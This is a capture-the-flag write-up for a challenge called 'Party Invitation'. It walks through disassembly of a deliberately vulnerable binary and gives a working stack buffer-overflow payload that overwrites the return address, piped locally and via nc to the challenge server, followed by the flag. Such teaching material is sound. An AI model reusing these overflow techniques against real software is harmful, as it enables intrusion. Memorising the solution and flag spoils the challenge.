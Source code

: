 # Party Invitation

## Question Text
There's an awesome party that's going to go down next week. Gotta get the invitation!

*Created - Noans*

## Distribution
- AwesomeParty 
	- SHA1: `a31ecb2e11a5b6762f78244f5103b424b0080b72`
	- Compiled from `generate.c` in generate folder using `cc generate.c -fno-stack-protector -Wl,--section-start=.special=0x1a1b1c1d`

## Solution
1. You would need to do an objdump on `AwesomeParty` with the command `objdump -d AwesomeParty`.
2. The following parts of from the `objdump` should be studied:  
```
00000000004005c6 <check>:
  4005c6:	55                   	push   %rbp
  4005c7:	48 89 e5             	mov    %rsp,%rbp
  4005ca:	48 83 ec 20          	sub    $0x20,%rsp
  4005ce:	48 8d 45 e0          	lea    -0x20(%rbp),%rax
  4005d2:	48 89 c6             	mov    %rax,%rsi
  4005d5:	bf 0c 07 40 00       	mov    $0x40070c,%edi
  4005da:	b8 00 00 00 00       	mov    $0x0,%eax
  4005df:	e8 cc fe ff ff       	callq  4004b0 <__isoc99_scanf@plt>
  4005e4:	bf 0f 07 40 00       	mov    $0x40070f,%edi
  4005e9:	e8 a2 fe ff ff       	callq  400490 <puts@plt>
  4005ee:	90                   	nop
  4005ef:	c9                   	leaveq 
  4005f0:	c3                   	retq
```
```
Disassembly of section .special:

000000001a1b1c1d <invitation>:
    1a1b1c1d:	55                   	push   %rbp
    1a1b1c1e:	48 89 e5             	mov    %rsp,%rbp
    1a1b1c21:	bf 98 06 40 00       	mov    $0x400698,%edi
    1a1b1c26:	e8 65 e8 24 e6       	callq  400490 <puts@plt>
    1a1b1c2b:	bf c0 06 40 00       	mov    $0x4006c0,%edi
    1a1b1c30:	e8 5b e8 24 e6       	callq  400490 <puts@plt>
    1a1b1c35:	90                   	nop
    1a1b1c36:	5d                   	pop    %rbp
    1a1b1c37:	c3                   	retq  
```
3. The third line of the disassembly of the check function tells us 32 bytes is reserved for a variable.
4. You would also need to understand that the next 8 bytes is the `%rbp` of the check function.
5. Therefore, realize that one needs to write 40 bytes of garbage first to be able to overwrite the return address of the check function.
6. Also derive address of `awesome` function is `1a1b1c1d`.

Final command to exploit local program assuming machine uses little-endian:  
`python -c 'print "a" * 40 + "\x1d\x1c\x1b\x1a"' | ./AwesomeParty`

In order to get the flag, players have to pipe the output to the game server:  
`python -c 'print "a" * 40 + "\x1d\x1c\x1b\x1a"' | nc pwn.chal.gryphonctf.com 18153`

### Flag
`GCTF{4W3S0M3_L177L3_P4R7Y}`

## Recommended Reads
* https://dhavalkapil.com/blogs/Buffer-Overflow-Exploit/
* https://eli.thegreenplace.net/2011/09/06/stack-frame-layout-on-x86-64